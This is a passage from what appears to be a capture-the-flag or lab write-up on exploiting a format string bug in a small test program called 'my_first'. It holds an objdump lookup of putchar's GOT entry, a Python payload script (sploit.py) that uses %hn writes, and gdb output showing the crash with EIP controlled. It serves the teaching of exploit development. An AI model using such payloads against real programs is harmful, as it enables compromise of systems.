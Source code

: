 ```
mike@pegasus:~$ objdump -R my_first | grep putchar
08049c10 R_386_JUMP_SLOT   putchar
```

Next I wrote up a python script called sploit.py to print out the format string into a text file that I could redirect into gdb:

```python
#!/usr/bin/env python

import struct

buf =  "1\n"            # calculator option
buf += "10\n"           # first number

# format string payload starts here
buf += "\x10\x9c\x04\x08"
buf += "\x12\x9c\x04\x08"

buf += "%1c%8$hn"       
buf += "%1c%9$hn"       

# junk so we can see where we are on the stack
buf += "AAAABBBBCCCCDDDDEEEEFFFF"

print buf
```

Back to gdb, I setup the text file containing the format string and set a breakpoint at offset 203 in the calculator function which is the call to putchar(). Finally, I passed the format string to the binary to see what would happen: 

```text
gdb-peda$ shell ./sploit.py > in.txt
gdb-peda$ r < in.txt 
WELCOME TO MY FIRST TEST PROGRAM
--------------------------------
Select your tool:
[1] Calculator
[2] String replay
[3] String reverse
[4] Exit

Selection: 
Enter first number: Enter second number: Error details: ���
AAAABBBBCCCCDDDDEEEEFFFF

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x23 ('#')
EBX: 0xb77acff4 --> 0x1a5d7c 
ECX: 0x0 
EDX: 0x0 
ESI: 0x0 
EDI: 0x0 
EBP: 0xbf951728 --> 0xbf951758 --> 0x0 
ESP: 0xbf95168c --> 0x80486eb (<calculator+208>:    mov    eax,0x1)
EIP: 0xa0009 ('\t')
EFLAGS: 0x10286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0xa0009
[------------------------------------stack-------------------------------------]
0000| 0xbf95168c --> 0x80486eb (<calculator+208>:   mov    eax,0x1)
0004| 0xbf951690 --> 0xa ('\n')
0008| 0xbf951694 --> 0xbf9516ac --> 0xbf9516b0 --> 0x8049c10 --> 0xa0009 ('\t')
```